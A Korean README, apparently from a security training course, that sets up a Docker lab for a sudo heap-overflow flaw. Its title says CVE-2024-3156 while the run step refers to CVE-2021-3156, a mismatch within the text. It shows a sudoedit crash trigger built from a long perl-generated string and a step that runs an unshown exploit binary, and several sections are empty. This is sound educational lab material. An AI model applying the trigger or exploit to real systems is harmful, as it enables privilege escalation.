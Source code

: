 # CVE-2024-3156
| 화이트햇스쿨 3기 35반 김동욱(7031)
----
### 요약

### 환경 구성
**이미지 빌드**
```bash
docker build -t <image:tag> .
```

**취약한 환경이 구성되었는지 확인**
```bash
$ docker run --rm <image:tag> ./vuln_check
# 아래와 같이 출력되면 취약한 환경이 잘 구성된 것
./vuln_check: line 2:     8 Segmentation fault      sudoedit -s '\' `perl -e 'print "A" x 10000'`
```
### 실행
```bash
$ docker run --rm --it <image:tag>
$ cd CVE-2021-3156 && ./exploit
```
### 결과

### 정리
